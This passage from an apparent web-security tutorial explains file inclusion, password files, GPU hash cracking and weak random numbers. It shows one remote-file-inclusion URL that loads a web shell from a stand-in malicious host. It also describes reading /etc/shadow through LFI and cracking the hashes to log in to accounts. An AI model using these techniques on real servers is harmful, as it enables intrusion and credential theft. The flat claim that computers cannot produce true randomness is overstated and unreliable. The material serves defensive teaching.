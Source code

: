 As bad as LFI is, keep in mind that it’s limited to files that are already on the server. If the server lets you upload files, then you might be able to use your own file with an LFI vulnerability. However, there is a much worse type of file inclusion, called remote file inclusion.

**RFI** – remote file inclusion. With RFI, you can use a remote file with an inclusion vulnerability, like so:

```
example.com/view.php?file=maliciouswebsite.com/webshell.php
```
What’s happening in the above example is that the view.php script is including a remote file, and running it as PHP. That’s not good. The best way for hackers to exploit an RFI vulnerability is with a web shell, which allows an attacker to run shell commands from within a web browser. From a web shell, an attacker can then establish a reverse shell, and then try to do privilege escalation, snoop around for interesting files (with cd and ls), find database credentials in PHP scripts or config files, change settings, exfiltrate data, upload their own malicious PHP or JS files (using wget to download them and mv to move them), and so on.

RFI is easier to maliciously exploit than LFI. LFI can be good to get a private file from a site, such as /etc/passwd, but RFI makes it easier to run a web shell. 

Both LFI and RFI illustrate why include() can be dangerous if used with user input from a form submission. 

**/etc/passwd** – a file containing information about user accounts on a system. 

**/etc/shadow** – a file containing password hashes for all the users on the server. Both /etc/passwd and /etc/shadow are Linux concepts. If you are able to do local file inclusion on a server, you can learn about user accounts with /etc/passwd, but that’s not good enough by itself. You should also do LFI for /etc/shadow, and then use a hash-cracking tool such as Hashcat or John the Ripper in order to crack the password hash so that you can log in to the different accounts on the system. 

Some security professionals even have a dedicated Hashcat machine, which is a computer with lots of fast graphics cards. Because Hashcat runs faster on GPUs than CPUs, and hash-cracking can take a long time, having a dedicated hash-cracking machine with lots of high-end GPUs can save you a lot of time. For more information about the Hashcat program, check out the website here: https://hashcat.net/hashcat/

I’ve seen people make Hashcat machines with 8+ graphics cards in a single machine. If you want to build a Hashcat machine, it might be worth looking into some of the hardware that GPU cryptocurrency miners use (not ASICs), because they have a lot in common. There are special power supplies, computer cases, motherboards, and PCIe lane extenders that make it easier to cram a ton of GPUs into a single computer. For a Hashcat machine, the CPU, RAM, and SSD aren’t that important. What matters is having tons of GPUs.

**Using weak pseudorandom numbers** – let’s say your website uses random numbers for things. Maybe for a session token, anti-CSRF token, password reset links, or even randomly-generated passwords for users who don’t want to make their own. If your random numbers are not very random, then that puts your site at risk. In computing, there is really no such thing as true randomness. Instead, there is PRNG, which stands for Pseudo-Random Number Generators. But not all PRNG is equally good. Many languages have basic random number built-ins, but for serious stuff, you might want to look into a concept called “secure random” numbers. For example, Java has a class called SecureRandom. PHP has a function called random_bytes(), which you can read more about here: https://www.php.net/manual/en/function.random-bytes.php

True random numbers on a computer simply don’t exist. If someone says they know how to get true random numbers, that’s like someone saying they made a free energy (perpetual motion) machine. They’re either lying or confused. 

